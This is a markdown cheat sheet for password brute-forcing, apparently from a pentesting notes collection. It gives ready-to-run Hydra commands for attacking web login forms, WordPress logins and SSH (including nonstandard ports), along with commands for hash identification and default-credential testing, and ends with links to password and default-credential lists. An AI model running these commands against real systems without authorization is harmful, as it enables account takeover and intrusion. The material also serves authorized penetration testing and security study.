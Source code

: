 # Password Bruteforcing

## Hash identify

```
# https://github.com/noraj/haiti
haiti hash
```

## Test for default credentials

```
# https://github.com/ztgrace/changeme
./changeme.py example.com
```
## Hydra

Hydra is a command-line tool for online password attacks, such as website login pages and ssh.

### General format for website attacks:

```
hydra -L <username list> -p <password list> [host] http-post-form "<path>:<form parameters>:<failed login message>"
```

### Wordpress

Attack WordPress login page with a known username, success parameter S= instead of failure parameter, verbose output:

```
hydra -l [username] -P /usr/share/wordlists/rockyou.txt [host] http-post-form "/wp-admin/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:S=http%3A%2F%2F[host]%2Fwp-admin%2F" -V
```

### SSH

```
# default
hydra -l root -P /usr/share/wordlists/fasttrack.txt [host] ssh

# no standard port
hydra -s 22022 -l root -P /usr/share/wordlists/fasttrack.txt [host] ssh

# with a username wordlist and ports
hydra -s 22022 -L userlist.txt -P /usr/share/wordlists/fasttrack.txt [host] ssh -t 4  -v
``` 



|URl|Description|
|---|---|
|https://nordpass.com/most-common-passwords-list/ | Most used password by nord vpn |
|https://github.com/ihebski/DefaultCreds-cheat-sheet| Default credentials for dozen of applications |
|https://cirt.net/passwords | Default credentials for dozen of applications |
|https://forum.ywhack.com/bountytips.php?password | Default credentials for dozen of applications |
| ## | ## |
|https://github.com/ignis-sec/Pwdb-Public| Mass list of passwords, based on data |
| https://bit.ly/3nFUfJG | Rockyou list 🤘 |
|https://github.com/1N3/IntruderPayloads| Lists used by burp |
